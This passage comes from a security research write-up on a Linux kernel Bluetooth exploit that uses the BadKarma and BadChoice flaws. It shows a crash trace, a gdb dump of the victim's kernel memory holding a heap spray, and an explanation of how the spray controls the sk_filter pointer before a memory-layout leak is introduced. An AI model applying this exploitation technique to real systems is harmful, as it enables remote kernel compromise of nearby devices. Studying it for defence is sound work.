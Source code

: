 ```
[   58.881785] CR2: 000055f861e4bd20 CR3: 000000024c80a001 CR4: 00000000003606e0
[   58.881790] Call Trace:
[   58.881869]  ? __l2cap_chan_add+0x88/0x1c0 [bluetooth]
[   58.881938]  l2cap_data_rcv+0x351/0x510 [bluetooth]
[   58.881995]  l2cap_data_channel+0x29f/0x470 [bluetooth]
[   58.882054]  l2cap_recv_frame+0xe5/0x300 [bluetooth]
[   58.882067]  ? __switch_to_asm+0x40/0x70
[   58.882124]  l2cap_recv_acldata+0x2d2/0x2e0 [bluetooth]
[   58.882174]  hci_rx_work+0x186/0x360 [bluetooth]
[   58.882187]  process_one_work+0x1eb/0x3b0
[   58.882197]  worker_thread+0x4d/0x400
[   58.882207]  kthread+0x104/0x140
[   58.882215]  ? process_one_work+0x3b0/0x3b0
[   58.882223]  ? kthread_park+0x90/0x90
[   58.882233]  ret_from_fork+0x35/0x40
```

Inspecting the memory address at RDI of the victim’s machine, we can see:

```
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff96da38f70300
0xffff96da38f70300:	0xffff96da601e7d00	0xffffffffc0d38760
0xffff96da38f70310:	0xffff96da60de2600	0xffff96da61c13400
0xffff96da38f70320:	0x0000000000000000	0x0000000000000001
0xffff96da38f70330:	0x0000000000000000	0x0000000000000000
0xffff96da38f70340:	0xffff96da38f70340	0xffff96da38f70340
0xffff96da38f70350:	0x0000000000000000	0x0000000000000000
0xffff96da38f70360:	0xffff96da38f70360	0xffff96da38f70360
0xffff96da38f70370:	0x0000000000000000	0x0000000000000000
0xffff96da38f70380:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f70390:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703a0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703b0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703c0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703d0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703e0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703f0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f70400:	0x4141414141414141	0x4242424242424242
0xffff96da38f70410:	0x4343434343434343	0x4444444444444444
0xffff96da38f70420:	0x4545454545454545	0x4646464646464646
0xffff96da38f70430:	0x4747474747474747	0x4848484848484848
```

The value at `0xffff96da38f70410` shows that `sk_filter()` indeed tried to dereference the pointer at offset 0x10 of our spray, which, from the perspective of `struct amp_mgr`, is at offset 0x110. Bingo!

#### Leaking the Memory Layout

Now we have a way to shape the heap and prepare it for the _BadKarma_ attack, and as such, have full control over the `sk_filter` pointer. The question is, where shall we point it to? In order to make that primitive useful, we must point it to a memory address whose content we can control. That is where the _BadChoice_ vulnerability comes into play. This vulnerability has the potential to disclose the memory layout and aid us in achieving the goal of controlling a memory block whose address we also know.
